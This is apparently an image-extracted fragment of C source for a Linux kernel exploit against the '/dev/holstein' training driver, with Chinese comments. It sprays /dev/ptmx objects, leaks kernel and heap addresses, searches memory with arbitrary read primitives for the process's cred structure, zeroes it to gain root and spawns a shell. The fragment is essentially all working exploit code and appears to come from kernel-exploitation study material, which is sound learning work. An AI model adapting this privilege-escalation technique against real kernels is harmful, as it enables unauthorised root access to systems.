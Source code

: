 ```c
}

int main() {
  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  global_fd = open("/dev/holstein", O_RDWR);
  if (global_fd == -1)
    perror("open");

  for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  read(global_fd, buf, 0x500);
  kernel_base = *(uint64_t *)&buf[0x418] - OPS_OFFSET;
  printf("[+] kernel base: 0x%lx\n", kernel_base);
  g_buf = *(uint64_t *)&buf[0x438] - 0x438;
  printf("[+] heap base: 0x%lx\n", g_buf);

  puts("[*] setting .comm to shuai6666\n");

  prctl(PR_SET_NAME, "yang6666");

  uint64_t addr_cred = 0;
  uint64_t addr = 0;

  for (addr = g_buf - 0x1000000;; addr += 0x8) { // 根据进程name循环搜寻目标进程
    if ((addr & 0xfffff) == 0) {
      printf("[*] start searching 0x%lx\n",
             addr); // 每到0x100000整数倍时就打印一次进度
    }
    if ((AAR32(addr) == 0x676e6179) && (AAR32(addr + 0x4) == 0x36363636)) {
      printf("[+] found target process: 0x%lx\n", addr);
      // 把8字节的地址分为两次4字节来读取
      addr_cred |= AAR32(addr - 0x8);                 // 读取低32位
      addr_cred |= (uint64_t)AAR32(addr - 0x4) << 32; // 读取高32位
      printf("[+] found target cred cred: 0x%lx\n", addr_cred);

      break;
    }
  }

  puts("[*] changing cred to 0\n");

  for (int i = 1; i < 9; i++) {
    AAW32(addr_cred + i * 4, 0);
  }

  puts("[*] spwan shell");

  system("/bin/sh");

  close(global_fd);

  //   for (int i = 0; i < SPRAY_NUM; i++) {
  //     close(spray[i]);
  //   }
```